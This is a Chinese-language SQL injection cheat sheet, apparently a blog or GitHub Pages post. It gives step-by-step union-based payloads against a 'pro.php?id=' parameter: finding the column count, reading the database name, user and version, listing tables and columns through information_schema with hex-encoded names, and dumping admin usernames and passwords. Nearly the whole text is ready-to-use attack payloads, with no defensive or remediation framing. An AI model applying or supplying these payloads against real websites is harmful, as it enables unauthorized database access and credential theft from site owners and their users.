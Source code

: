 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)SQL Cheat-Sheet


## ![](../img/github7.png)SQL查询语句
```sql
SELECT username FROM users WHERE isadmin = 1 GROUP BY username ORDER BY username ASC
```
## ![](../img/github8.png)根据MySql日志监控里获取的sql语句判断可输出的只有一个字段，然后我们构造POC
```sql
id=-1 union select 222333#
```

## ![](../img/github9.png)构造获取数据库相关信息的POC
（只有-1或者and1=2这种假条件才会执行后面的union）
```sql
id=-1 union select concat(database(),0x5c,user(),0x5c,version())#
```
或者连带数据库名：

找到显示位后，先列出数据库名(用时只更换网址和显示位就行，hex不用换)：
```sql
http://www.test.cn/pro.php?id=-1 union select 1,
concat(0x757365723A,user(),0x5c,0x64617461626173653A,database(),0x5c,0x76657273696f6e3A,version())
3,4,5,
concat(0x616c6c207461626c65733A,GROUP_CONCAT(DISTINCT table_schema))
from information_schema.columns#
```
## ![](../img/github10.png)构造获取数据库sqlol中所有表信息的POC
```sql
id=-1 union select 1,2,3,GROUP_CONCAT(DISTINCT table_name),5,6 from information_schema.tables where table_schema=数据库名(不带括号)的hex值#
```
>小贱提示：如果是当前数据库，那就直接database()或hex(database())

## ![](../img/github11.png)构造获取admin表所有字段信息的POC
```sql
id=-1 union select 1,2,3,GROUP_CONCAT(DISTINCT column_name),5,6 from information_schema.columns where table_name=表名的hex值#
```

## ![](../img/github13.png)构造获取admin表账户密码的POC
```sql
id=-1 union select 1,2,3,GROUP_CONCAT(DISTINCT username,0x5f,password),5,6 from admin#
```
=====================方法2=====================
## 举例：www.test.com/pro.php?id=5
```
1、先order by 查看测试共有几个字段，order by 7正常，order by 8出错，union select 1,2,3,4,5,6,7,看显示哪个数，把那个数作为显示位置

2、爆表名格式：
union select 1,2,3,table_name,5,6,7 from (select * from information_schema.tables where table_schema=数据库名字的十六进制 order by table_schema limit 6,1)t limit 1--

这里数据库名字直接database()就行
如果是其他数据库名，则需要十六进制格式，且不用括号，直接数据库名
limit a,b是从第a个数据开始显示，b是显示个数，a从0开始计算

比如：
www.test.com/pro.php?id=5 and 1=2 union select 1,2,3,table_name,5,6,7 from (select * from information_schema.tables where table_schema=0x73716C6F6C order by table_schema limit 6,1)t limit 1--

3、爆字段名格式：
union select 1,2,3,column_name,5,6,7 from (select * from information_schema.columns where table_name=爆出来的表名的hex值 and table_schema=数据库名的hex值 order by 1 limit 0,1)t limit 1--

4、爆用户名密码:
www.test.com/pro.php?id=5 and 1=2 union select 1,2,3,concat(uid,0x5f,pwd),5,6,7 from admin
```


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
